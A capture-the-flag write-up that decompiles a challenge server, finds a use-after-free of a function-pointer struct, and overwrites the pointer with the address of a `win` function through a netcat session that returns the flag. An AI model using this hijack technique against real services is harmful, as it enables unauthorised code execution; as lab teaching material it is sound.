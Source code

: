 basics
======

Background
----------
The goal was to retrieve the flag stored on the server

Tools used
----------
* IDA Pro

Process
-------
Opening up the executable in IDA, I found that the function `handle` handled network connections, which I entered and got hexrays to decompile to:
````c
int __cdecl handle(int fd)
{
  char buf; // [sp+14h] [bp-414h]@2
  void *v3; // [sp+414h] [bp-14h]@1
  void *ptr; // [sp+418h] [bp-10h]@1
  int i; // [sp+41Ch] [bp-Ch]@1

  sendstr(fd, "Creating the function pointer struct...\n");
  ptr = malloc(0xCu);
  *((_DWORD *)ptr + 1) = do_nothing;
  sendstr(fd, "Doing something with the function pointer struct...\n");
  (*((void (**)(void))ptr + 1))();
  sendstr(fd, "Freeing the function pointer struct...\n");
  free(ptr);
  sendstr(fd, "Creating the integer struct...\n");
  v3 = malloc(0xCu);
  sendstr(fd, "Enter 3 integers, separated by newlines:\n");
  for ( i = 0; i <= 2; ++i )
  {
    sendstr(fd, "> ");
    readstr(fd, &buf, 1024);
    *((_DWORD *)v3 + i) = atoi(&buf);
  }
  sendstr(fd, "Those integers are: ");
  for ( i = 0; i <= 2; ++i )
  {
    sprintf(&buf, "%d, ", *((_DWORD *)v3 + i));
    sendstr(fd, &buf);
  }
  sendstr(fd, "\n");
  sendstr(fd, "Freeing the integer struct...\n");
  free(v3);
  sendstr(fd, "Doing something with the (now free'd) function pointer struct...\n");
  sock = fd;
  (*((void (**)(void))ptr + 1))();
  return 0;
}
````

I observed a few things about this code:
* It used an area of memory already freed as a pointer to a function to call
* It allocated 12 bytes of memory twice, the second time right after freeing the first, so it would likely be allocated to the same address
* It let us write three arbitrary 4-byte integers to that allocated memory

From this code, I now knew that sending a crafted second integer would allow us to call any arbitrary function as long as we knew it's address.

Looking through IDA again, I noticed the function `win` at address 0x08048953, which printed the flag over the socket, so I knew this must be the function to call.

0x08048953 in decimal is 134515027, so now all I had to do was enter it:
````
$ nc 54.252.230.167 2222
Creating the function pointer struct...
Doing something with the function pointer struct...
Freeing the function pointer struct...
Creating the integer struct...
Enter 3 integers, separated by newlines:
> 0
> 134515027
> 0
Those integers are: 0, 134515027, 0, 
Freeing the integer struct...
Doing something with the (now free'd) function pointer struct...
Congratulations! The key is: 1BVTerWTAuKX42HPX5HAih8wDQusT2aXMh
````
